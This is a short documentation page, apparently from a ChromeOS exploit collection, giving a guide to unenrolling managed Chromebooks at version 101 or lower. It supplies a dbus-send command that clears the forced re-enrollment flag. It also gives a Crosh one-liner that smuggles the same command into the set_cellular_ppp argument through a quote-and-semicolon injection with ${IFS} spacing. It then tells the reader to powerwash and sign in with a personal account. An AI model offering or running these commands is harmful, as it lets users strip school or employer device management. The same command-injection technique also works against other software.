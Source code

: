 ```yaml
---
title: Rootless Unenrollment (≤v101)
description: Documentation for Rootless Unenrollment.
keywords: ["chromeos exploits"]
---
```


:::note
This relies on you being at or below version 101. See [ChromeOS Versioning](/kajigs/crosver).
:::

# Requirements

- Crosh access
- Version 101 or lower

# Guide

Run this as `chronos`:

```
dbus-send --system --print-reply --dest=org.chromium.SessionManager /org/chromium/SessionManager org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd
```

Or a funny one-liner for Crosh:

```
set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'
```

If successful, the command will return `method return` and some other data after that. Powerwash your Chromebook and log in with a personal email. On devices without FWMP, you will also have the option to enter developer mode immediately.

\- OlyB

